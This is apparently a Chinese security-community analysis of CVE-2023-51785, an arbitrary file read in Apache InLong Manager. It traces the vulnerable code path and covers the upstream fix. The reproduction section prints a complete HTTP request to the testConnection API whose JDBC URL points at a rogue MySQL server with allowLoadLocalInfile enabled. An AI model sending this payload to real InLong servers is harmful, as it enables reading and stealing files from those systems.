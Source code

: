

# Apache InLong Manager Arbitrary File Read Vulnerability(CVE-2023-51785) 漏洞分析 - 先知社区

Apache InLong Manager Arbitrary File Read Vulnerability(CVE-2023-51785) 漏洞分析

- - -

# 漏洞描述

Apache InLong 中的不受信任数据漏洞。此问题影响 Apache InLong：从 1.7.0 到 1.9.0，攻击者可以使用 mysql 驱动程序进行任意文件读取攻击。建议用户升级到 Apache InLong 的 1.10.0 或 cherry-pick \[1\]来解决这个问题。

# 漏洞版本

从 1.7.0 到 1.9.0

# 环境搭建

[How to Build | Apache InLong](https://inlong.apache.org/docs/quick_start/how_to_build)  
[Standalone | Apache InLong](https://inlong.apache.org/docs/deployment/standalone)

# 代码分析

看修复代码定位到：StarRocksDataNodeOperator.testConnection  
溯源上去是：org.apache.inlong.manager.web.controller.DataNodeController#testConnection  
一直调用到：org.apache.inlong.manager.service.node.starrocks.StarRocksDataNodeOperator#testConnection

[![](assets/1706496716-41041071aef1f8738606adf62e978834.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125172555-bdd3de6c-bb63-1.png)

org.apache.inlong.manager.service.resource.sink.starrocks.StarRocksJdbcUtils#getConnection

[![](assets/1706496716-ff33359a3a81260f6f5a4366f6a12116.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125172604-c3105630-bb63-1.png)

这里进行了判断，不为空且 STAR\_ROCKS 也是调用的 mysql

[![](assets/1706496716-ba4acb33cefddbdde9be419279c63cdc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125172612-c7cccad2-bb63-1.png)

判断结束后直接反射然后 getConnection 造成 jdbc attck

# 漏洞复现

使用[GitHub - rmb122/rogue\_mysql\_server: A rouge mysql server supports reading files from most mysql libraries of multiple programming languages.](https://github.com/rmb122/rogue_mysql_server)  
本地搭建 evil mysql server，然后发送请求

```bash
POST /inlong/manager/api/node/testConnection HTTP/1.1
Host: 172.18.178.167:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: application/signed-exchange;v=b3;q=0.7,*/*;q=0.8
Purpose: prefetch
Referer: http://172.18.178.167:8083/inlong/manager/doc.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Cookie:JSESSIONID=42127a67-091a-464d-b340-2ff7663a6ee8;
Content-Type: application/json
Content-Length: 276

{
  "description": "",
  "displayName": "a",
  "extParams": "a",
  "id": 0,
  "inCharges": "",
  "name": "fileread",
  "token": "",
  "type": "STARROCKS",
  "url": "jdbc:mysql://172.18.176.1:3308/test?allowLoadLocalInfile=true",
  "username": "a",
  "version": 0
}
```

成功读取文件

[![](assets/1706496716-3c7b134530975b660e9b11d5b92566ae.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125172655-e1914e66-bb63-1.png)

# 漏洞修复

[\[INLONG-9330\]\[Manager\] Add encoding check to the StarRocks JDBC URL by hnrainll · Pull Request #9331 · apache/inlong · GitHub](https://github.com/apache/inlong/pull/9331)  
将编码检查添加到 StarRocks JDBC URL，在 mysql JDBC URL 的 URL 编码中添加检查。

[![](assets/1706496716-8035d294f4437472e6c38e886244b6a5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125172717-eec2be4e-bb63-1.png)

限制了 mysql 的文件读取

[![](assets/1706496716-1d79f570c722dd801955f228e0199279.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125172729-f5eb4204-bb63-1.png)

